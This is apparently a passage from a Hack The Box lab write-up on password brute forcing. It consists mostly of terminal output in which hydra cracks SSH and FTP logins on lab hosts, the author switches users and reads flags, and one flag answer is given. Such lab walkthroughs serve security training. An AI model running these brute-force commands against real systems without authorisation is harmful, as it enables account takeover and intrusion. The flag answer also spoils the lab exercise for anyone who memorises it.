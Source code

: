 ```

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2022-07-09 09:08:22
[WARNING] Restorefile (you have 10 seconds to abort... (use option -I to skip waiting)) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 4 tasks per 1 server, overall 4 tasks, 33690 login tries (l:15/p:2246), ~8423 tries per task
[DATA] attacking ssh://206.189.25.173:32229/
[32229][ssh] host: 206.189.25.173   login: harry.potter   password: H4rry!!!
[STATUS] attack finished for 206.189.25.173 (valid pair found)
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2022-07-09 09:08:33

┌──(kali㉿kali)-[~/username-anarchy]
└─$ ssh harry.potter@206.189.25.173 -p 32229
harry.potter@206.189.25.173's password: 
Welcome to Ubuntu 20.04.1 LTS (GNU/Linux 4.19.0-17-amd64 x86_64)

(...)

harry.potter@bruteforcingasmt-2-476470-84778bc67b-7xfzj:~$ cat flag.txt
HTB{4lw4y5_u53_r4nd0m_p455w0rd_63n3r470r}
```

**Answer:** `HTB{4lw4y5_u53_r4nd0m_p455w0rd_63n3r470r}`

### Question 2:
![](./attachments/Pasted%20image%2020220709102406.png)

*Hint: Use the wordlist provided in your home directory.*

```
harry.potter@bruteforcingasmt-2-476470-84778bc67b-7xfzj:~$ ls /home
g.potter  harry.potter
harry.potter@bruteforcingasmt-2-476470-84778bc67b-7xfzj:~$ netstat -antp | grep -i list
(No info could be read for "-p": geteuid()=1000 but you should be root.)
tcp        0      0 0.0.0.0:80              0.0.0.0:*               LISTEN      -                   
tcp6       0      0 :::80                   :::*                    LISTEN      -                   
tcp6       0      0 :::21                   :::*                    LISTEN      -

harry.potter@bruteforcingasmt-2-476470-84778bc67b-7xfzj:~$ hydra -l g.potter -P rockyou-30.txt ftp://127.0.0.1
Hydra v9.0 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2022-07-09 14:18:10
[DATA] max 16 tasks per 1 server, overall 16 tasks, 1556 login tries (l:1/p:1556), ~98 tries per task
[DATA] attacking ftp://127.0.0.1:21/
[STATUS] 304.00 tries/min, 304 tries in 00:01h, 1252 to do in 00:05h, 16 active
[STATUS] 300.00 tries/min, 900 tries in 00:03h, 656 to do in 00:03h, 16 active
[STATUS] 293.50 tries/min, 1174 tries in 00:04h, 382 to do in 00:02h, 16 active
[21][ftp] host: 127.0.0.1   login: g.potter   password: harry
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2022-07-09 14:23:03
harry.potter@bruteforcingasmt-2-476470-84778bc67b-7xfzj:~$ su g.potter
Password: 
g.potter@bruteforcingasmt-2-476470-84778bc67b-7xfzj:/home/harry.potter$ cat ../g.potter/flag.txt
```